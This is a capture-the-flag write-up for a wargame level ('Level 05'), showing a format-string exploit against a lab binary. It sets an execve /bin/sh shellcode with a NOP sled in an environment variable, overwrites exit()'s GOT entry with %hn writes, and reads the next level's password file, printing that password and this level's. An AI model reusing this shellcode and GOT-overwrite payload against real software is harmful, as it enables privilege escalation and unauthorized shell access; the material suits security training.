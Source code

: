 # Level 05
*password : 3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN*

## Analyze

```
scp -P 4242 level05@192.168.56.109:level05 binary/
```

```
(gdb) disas exit
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:     jmp    *0x80497e0
   0x08048376 <+6>:     push   $0x18
   0x0804837b <+11>:    jmp    0x8048330
End of assembler dump.
```

return exit() : 0x080497e0

shellcode : `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80`
```
$ export SHELLCODE=$(python -c 'print "\x90" * 200 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"')
```

```
(gdb) x/200x environ
...
0xffffd80c:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd81c:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd82c:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd83c:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd84c:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd85c:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd86c:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd87c:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd88c:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd89c:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd8ac:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd8bc:     0x90909090      0x90909090      0x90909090      0x90909090
...
---Type <return> to continue, or q <return> to quit---
```

env SHELLCODE address : 0xffffd8ac

- ffff = 65535
- d8ac = 55468
55468 - 8 = 55460\
65535 - 55468 = 10067

return exit() + 2 : 0x080497e2

```
$ python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55460u" + "%10$hn" + "%10067u" + "%11$hn %10$p"' > /tmp/level05
$ cat /tmp/level05 - | ./level05
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```
